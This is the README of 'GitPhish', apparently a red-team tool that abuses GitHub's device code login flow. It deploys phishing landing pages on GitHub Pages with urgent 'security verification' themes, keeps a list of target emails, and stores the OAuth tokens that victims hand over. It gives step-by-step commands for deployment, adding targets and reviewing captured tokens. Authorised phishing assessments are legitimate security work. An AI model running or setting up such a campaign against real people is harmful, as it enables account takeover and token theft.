

# GitPhish

**A GitHub Device Code Flow Security Assessment Tool**

GitPhish is a comprehensive security research tool designed to perform GitHub's
device code authentication flow. The platform operates through three primary
modes: an authentication server, automated landing page deployment, and an
administrative management interface.

## Table of Contents

- [Architecture Overview](#architecture-overview)
- [Installation](#installation)
- [Quick Start](#quick-start)
- [Component Documentation](#component-documentation)
- [Usage Examples](#usage-examples)
- [Configuration](#configuration)
- [Troubleshooting](#troubleshooting)

## Architecture Overview

### Core Components

**Authentication Server**
- Flask-based HTTPS endpoint with device code flow implementation
- Comprehensive token capture with visitor analytics
- Email allowlisting and access control

**GitHub Pages Deployment Engine**
- Automated repository creation and Pages configuration
- Professional template system with multiple presets
- Real-time deployment status monitoring
- Integration with authentication server endpoints

**Administrative Interface**
- Web-based management dashboard
- Real-time monitoring and analytics
- Deployment orchestration and control
- Audit logging and reporting

### Data Flow Architecture

```
Target Email → GitHub Pages → Auth Server → Device Code Flow → Token Capture
                    ↓              ↓              ↓
              Template System   Auth Layer   Database Storage
```

The system maintains persistent state through SQLite database storage, tracking
deployments and captured authentication data.

## Installation

### Prerequisites

1. **Python Requirements**
   - Python
   - pip

2. **GitHub Personal Access Token**
   - Token with `repo` permissions
   - Required for GitHub Pages deployment

3. **Network Configuration**
   - Firewall rules allowing inbound connections on configured ports

### Installation Steps

1. **Clone Repository**
   ```bash
   git clone https://github.com/yourusername/gitphish.git
   cd gitphish
   ```

2. **Install Package**
   ```bash
   pip install .
   ```

3. **Configure Environment**
   ```bash
   export GITHUB_DEPLOY_TOKEN="ghp_your_token_here"
   ```

## Quick Start

GitPhish works as either a CLI tool or a web interface, with both methods
exposing the core functionality of GitPhish.

### Basic Deployment

**Start Administrative Interface:**
```bash
gitphish gui
```
Access at `http://localhost:8080`.

**Deploy GitHub Pages Landing Page:**
```bash
gitphish deploy create \
  --ingest-url "https://your-server.com/ingest" \
  --preset enterprise \
  --repo-name security-assessment
```

**Start Authentication Server:**
```bash
gitphish server --dev
```

## Component Documentation

### Authentication Server

The authentication server initiates GitHub's device code flow for all requests
to it's `/ingest` endpoint. Each request is expected to include an email
parameter, like `/ingest?email=<email>`, that is confirmed against the allowlist
before generating a device code.

**Command Structure:**
```bash
gitphish server [OPTIONS]
```

**Key Options:**
- `--dev`: Development mode with self-signed certificates
- `--host`: Server host address (default: 0.0.0.0)
- `--port`: Server port (default: 443)
- `--client-id`: GitHub OAuth client ID
- `--org-name`: Target organization name

### GitHub Pages Deployment

Automated deployment system for professional phishing page templates.

**Template Presets:**
- `enterprise`: Corporate professional theme
- `security`: Security-focused urgent messaging
- `urgent`: High-priority security alert theme
- `default`: Clean minimalist design

**Deployment Command:**
```bash
gitphish deploy create \
  --ingest-url "https://your.server.com/ingest" \
  --preset enterprise \
  --custom-title "Security Verification Portal" \
  --repo-name my-assessment
```



## Usage Examples

### Production Security Assessment

```bash
# Step 1: Deploy GitHub Pages landing page
gitphish deploy create \
  --preset enterprise \
  --repo-name github-security-verification \
  --ingest-url "https://your-server.com/ingest"

# Step 2: Configure target list
echo "target1@company.com" >> data/allowlist.txt
echo "target2@company.com" >> data/allowlist.txt

# Step 3: Start authentication server
gitphish server
```

### Deployment Management

```bash
# List all active deployments
gitphish deploy list

# Check specific deployment status
gitphish deploy status --repo-name my-assessment

# View deployment statistics
gitphish deploy stats

# Clean up deployment
gitphish deploy cleanup --repo-name my-assessment
```

## Configuration

### Environment Variables

**Required:**
- `GITHUB_DEPLOY_TOKEN`: GitHub Personal Access Token with repo permissions

### Data Persistence

**Critical Data Paths:**
- `data/gitphish.db`: SQLite database with deployment tracking
- `data/successful_tokens/`: Captured authentication tokens with metadata
- `data/allowlist.txt`: Email allowlist configuration
- `data/logs/`: Audit logs and visitor data
- `data/auth_attempts/`: All authentication attempt logs

### SSL Configuration

**Development Mode:**
- Automatic self-signed certificate generation using `--dev` flag
- Suitable for testing and development environments
- Certificates generated in current directory as `dev_cert.pem` and `dev_key.pem`

**Production Mode:**
- Requires valid SSL certificates (`fullchain.pem` and `privkey.pem`)
- Certificate files must be present in the working directory
- Proper DNS configuration required for certificate validation

## Troubleshooting

### Common Issues

**Email Not Allowed:**
- Ensure that your target email is on the allowlist
- Make sure that your landing-page link includes the `email` parameter

**Authentication Server Connection Issues:**
- Validate firewall configuration and port accessibility
- Check SSL certificate validity and configuration
- Verify DNS resolution for authentication endpoints
- For dev mode, ensure self-signed certificates are generated properly

**GitHub Pages Deployment Failures:**
- Confirm GitHub token permissions and validity
- Check repository naming conflicts
- Verify GitHub Actions availability and quotas
- Ensure token has `repo` scope permissions

### Log Analysis

Application logs provide detailed information for troubleshooting:
```bash
# View visitor logs
tail -f data/logs/visitor_data.log

# Check authentication attempts
ls -la data/auth_attempts/

# Review successful token captures
ls -la data/successful_tokens/
```
